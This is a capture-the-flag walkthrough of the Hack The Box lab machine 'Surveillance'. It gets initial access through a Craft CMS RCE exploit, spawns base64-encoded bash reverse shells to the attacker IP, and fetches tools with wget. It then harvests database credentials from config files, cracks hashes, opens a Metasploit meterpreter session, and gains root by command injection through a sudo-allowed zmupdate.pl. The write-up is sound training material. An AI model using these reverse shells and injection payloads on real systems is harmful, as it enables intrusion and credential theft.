




## Enumeration
initial nmap:
```
Nmap scan report for 10.129.171.36
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds
```

We can see http redirecting to `surveillance.htb`, so this must be added to /etc/hosts:

```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts       
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.129.171.36 surveillance.htb
```

Entering the website:


There is nothing on the main page of interest.
### Directory Fuzzing with feroxbuster
Enumeration with feroxbuster reveals an admin login page:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://surveillance.htb/                                                             

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://surveillance.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       63l      222w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://surveillance.htb/js => http://surveillance.htb/js/
301      GET        7l       12w      178c http://surveillance.htb/images => http://surveillance.htb/images/
301      GET        7l       12w      178c http://surveillance.htb/css => http://surveillance.htb/css/
301      GET        7l       12w      178c http://surveillance.htb/img => http://surveillance.htb/img/
302      GET        0l        0w        0c http://surveillance.htb/admin => http://surveillance.htb/admin/login
200      GET       89l      964w    72118c http://surveillance.htb/images/hero-bg.png
200      GET       56l      237w    22629c http://surveillance.htb/images/w3.png
200      GET      108l      201w     1870c http://surveillance.htb/css/responsive.css
200      GET       46l       97w     1008c http://surveillance.htb/js/custom.js
200      GET      114l      552w    42779c http://surveillance.htb/images/s2.png
200      GET       42l      310w    32876c http://surveillance.htb/images/home.png
302      GET        0l        0w        0c http://surveillance.htb/logout => http://surveillance.htb/
```
Visiting this page reveals it is running Craft CMS. This could also be found in the footer of the home page:



### Researching potential public vulnerabilities in an old CraftCMS version
We can see this CraftCMS version is 4.4.14, based on the home page's hyperlink. Since this is slightly outdated, we can check through git commits to look for significant vulnerabilities. For example, within the notes of patch 4.5.7, we see a mention on fixing RCE vulnerabilities:


Unfortunately we are not given a list of CVEs to check for what is fixed here. Also searching for generic rce vulns, we might find this critical severity level vulnerability, only fixed in version 4.4.15: https://putyourlightson.com/articles/critical-craft-cms-security-vulnerability This is given a CVE, CVE-2023-41892 with among the highest scores I've seen in a while. Wow! 
We can find a [proof of concept script on github](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) to try out. A few small changes were done to the original script in troubleshooting:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ diff original.py exploit.py
25c25
<     response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})                                                                                                                 
---
>     response = requests.post(url, headers=headers, data=data, files=files)
50c50
<     response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})    
---
>     response = requests.post(url, headers=headers, data=data)    
71c71
<         tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
---
>         tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
```
Now when we execute, the webshell works!
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ python exploit.py http://surveillance.htb/
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Crash the php process and write temp file successfully
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
To create a reverse shell, I base64 encode a basic payload from revshells.com and pipe it to base64:
```
$ echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDIvODA4MCAwPiYx' | base64 -d | bash
```
Now on my nc listener, a reverse shell is established:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ nc -nvlp 8080 
listening on [any] 8080 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.245] 38598
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web/cpresources$ 
```
From here, we should stabilize the reverse shell using `script`:
```
www-data@surveillance:~/html/craft/web/cpresources$ script -qc /bin/bash /dev/null
<aft/web/cpresources$ script -qc /bin/bash /dev/null
www-data@surveillance:~/html/craft/web/cpresources$ ^Z
zsh: suspended  nc -nvlp 8080

┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ stty raw -echo; fg 
[1]  + continued  nc -nvlp 8080

www-data@surveillance:~/html/craft/web/cpresources$   
```
## Lateral Movement
### Enumeration of environment
From env, we can find credentials for mysql:
```
www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```
### Finding password hashes in mysql
Logging in:
```
www-data@surveillance:~/html/craft$ mysql -u craftuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 3605
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
For the craftdb database, we see a users table:
```
MariaDB [craftdb]> show tables;
+----------------------------+
| Tables_in_craftdb          |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
<...SNIP...>
| users                      |
| volumefolders              |
| volumes                    |
| widgets                    |
+----------------------------+
63 rows in set (0.000 sec)
```
Within the users, we can find a hash for user Matthew:
```
MariaDB [craftdb]> select firstname,lastname,email,password from users;
+-----------+----------+------------------------+--------------------------------------------------------------+
| firstname | lastname | email                  | password                                                     |
+-----------+----------+------------------------+--------------------------------------------------------------+
| Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+-----------+----------+------------------------+--------------------------------------------------------------+
1 row in set (0.000 sec)
```
Looking in the home folder, we can see that Matthew is a user on this box:
```
www-data@surveillance:~/html/craft$ ls -al /home
total 16
drwxr-xr-x  4 root       root       4096 Oct 17 11:20 .
drwxr-xr-x 18 root       root       4096 Nov  9 13:19 ..
drwxrwx---  3 matthew    matthew    4096 Nov  9 12:45 matthew
drwxr-x---  2 zoneminder zoneminder 4096 Nov  9 12:46 zoneminder
```
Unfortunately, cracking the password with a generic `rockyou.txt` does not yield results in a timely manner. Using the app's `database.php`, we might find potential credentials for ZoneMinder:
```
-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
                'password' => ZM_DB_PASS,
                'database' => ZM_DB_NAME,
                'host' => 'localhost',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
                                $this->default['host'] = $array[0];
                        $this->default['host'] = ZM_DB_HOST;
```
From this database, we can find a new hash for admin.
```
MariaDB [zm]> select Username,Password from Users;
+----------+--------------------------------------------------------------+
| Username | Password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd. |
+----------+--------------------------------------------------------------+
1 row in set (0.000 sec)
```
This also does not crack. However, when we enumerate open ports, we can find an internal port open on port 8080:
```
www-data@surveillance:/tmp$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
### Examining ZoneMinder internal webserver
A quick curl check shows this is a web server:
```
www-data@surveillance:/tmp$ curl localhost:8080
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>ZM - Login</title>
<...SNIP...>
```
We can pivot to view this using `chisel`. First, downloading chisel from my kali host:
```
www-data@surveillance:/tmp/ch$ wget 10.10.14.102/chisel
--2024-05-01 02:20:18--  http://10.10.14.102/chisel
Connecting to 10.10.14.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   8.25M  6.81MB/s    in 1.2s    

2024-05-01 02:20:19 (6.81 MB/s) - 'chisel' saved [8654848/8654848]

www-data@surveillance:/tmp/ch$ chmod +x chisel
```
Then on kali's chisel, establish reverse server:
```bash
 ./chisel server -p 8000 --reverse
```
Now on the victim box, establish the port forwarding:
```
./chisel client 10.10.14.102:8000 R:8080:127.0.0.1:8080
```
Now when we visit localhost:8080, we are able to view the internal web port:



Researching ZoneMinder, we can find multiple potential CVEs: [CVE-2023-26037](https://nvd.nist.gov/vuln/detail/CVE-2023-26037), [CVE-2023-26039](https://nvd.nist.gov/vuln/detail/CVE-2023-26039), and [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035). However, some of these require authentication while the other straight up wasn't working well for me. 
### Finding more hashes in a backup file
Back to enumeration, I eventually find an interesting backup file in `/var/www/html/craft/storage/backups`:
```
www-data@surveillance:~/html/craft/storage/backups$ ls -al
total 28
drwxrwxr-x 2 www-data www-data  4096 Oct 17 20:33 .
drwxr-xr-x 6 www-data www-data  4096 Oct 11 20:12 ..
-rw-r--r-- 1 root     root     19918 Oct 17 20:33 surveillance--2023-10-17-202801--v4.4.14.sql.zip
```
After extracting, we can see this is plaintext:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ file surveillance--2023-10-17-202801--v4.4.14.sql
surveillance--2023-10-17-202801--v4.4.14.sql: ASCII text
```
In here there is data insert for `users` table:
```
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;
```
This is a new hash for matthew, looking like an easier hash to crack:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ hashid '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec'                                                       
Analyzing '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256) 
```
Using hashcat, it cracks instantly:
```
$ hashcat -m 1400 '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec' /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

Successfully initialized NVIDIA CUDA library.
<...SNIP...>
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c...5770ec
Time.Started.....: Sun Dec 10 12:08:06 2023 (0 secs)
Time.Estimated...: Sun Dec 10 12:08:06 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 12754.9 kH/s (2.78ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3833856/14344384 (26.73%)
Rejected.........: 0/3833856 (0.00%)
Restore.Point....: 3407872/14344384 (23.76%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: tabbal -> shardaashok
Hardware.Mon.#1..: Temp: 58c Fan: 31% Util: 25% Core:1316MHz Mem:3505MHz Bus:16

Started: Sun Dec 10 12:08:05 2023
Stopped: Sun Dec 10 12:08:07 2023
```

`matthew:starcraft122490`
Note that this **is** the same password used in zoneminder, but it's much longer to crack from a large wordlist like rockyou:
```
$ hashcat -m 3200 '$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.' ./test 
hashcat (v6.2.5) starting

Successfully initialized NVIDIA CUDA library.
<...SNIP...>        

$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.:starcraft122490
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2...6dxYd.
Time.Started.....: Sun Dec 10 12:09:05 2023 (1 sec)
Time.Estimated...: Sun Dec 10 12:09:06 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./test)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        1 H/s (6.83ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: starcraft122490 -> starcraft122490
Hardware.Mon.#1..: Temp: 60c Fan: 29% Util:100% Core:1316MHz Mem:3505MHz Bus:16

Started: Sun Dec 10 12:09:05 2023
Stopped: Sun Dec 10 12:09:07 2023
```
The login credentials work for user matthew:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ ssh matthew@surveillance.htb    
The authenticity of host 'surveillance.htb (10.129.171.36)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:61: [hashed name]
    ~/.ssh/known_hosts:64: [hashed name]
    ~/.ssh/known_hosts:65: [hashed name]
    ~/.ssh/known_hosts:66: [hashed name]
    ~/.ssh/known_hosts:88: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'surveillance.htb' (ED25519) to the list of known hosts.
matthew@surveillance.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
<...SNIP...>
Last login: Tue Dec  5 12:43:54 2023 from 10.10.14.40
matthew@surveillance:~$ 
```
### Returning to ZoneMinder with valid credentials
Checking `sudo` privileges:
```
matthew@surveillance:~$ sudo -l
[sudo] password for matthew: 
Sorry, user matthew may not run sudo on surveillance.
```
We can also enter zoneminder now by recycling the password:



`admin:starcraft122490`

Returning to the CVEs previously researched, we can apply a [metasploit module](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/) for CVE-2023-26035:
```
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/zoneminder_snapshots) > set SRVPORT 8001
SRVPORT => 8001
msf6 exploit(unix/webapp/zoneminder_snapshots) > set FETCH_SRVPORT 8001
FETCH_SRVPORT => 8001
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST 10.10.14.134
LHOST => 10.10.14.134
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 10.10.14.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 12.486233060000814 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:2c845697e6a6bc33c79b12bb323b79878b1f0db1,1702229326
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.129.171.36
[*] Meterpreter session 1 opened (10.10.14.134:4444 -> 10.129.171.36:45848) at 2023-12-10 11:28:48 -0600
id
[+] Payload sent

meterpreter > id
[-] Unknown command: id
meterpreter > shell
Process 25281 created.
Channel 1 created.
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```
## Privilege Escalation
### Command injection in zmupdate.pl
Checking new sudo privs:
```
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
so we can run .pl files from bin. our options:
```
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -al /usr/bin/zm*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```
Within `zmupdate.pl`, we might eventually see that a mysqldump command is being run. I recognize this as a binary, and with no absolute path it is likely being invoked using some kind of shell like bash:
```perl
    if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser;
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;

```
In this case if we supply a dbUser (--user flag), we can perform command injection. My payload is to run a reverse shell, using a basic payload from revshells:
```
zoneminder@surveillance:/tmp$ cat r.sh
bash -i >& /dev/tcp/10.10.14.102/8080 0>&1
```
Payload used:
```
sudo /usr/bin/zmupdate.pl --version=1.3 --user='$(/tmp/r.sh)' --pass=asdf
```
Now on my listener, I get a connection back. 
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.245] 60952
root@surveillance:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@surveillance:/tmp# 
```
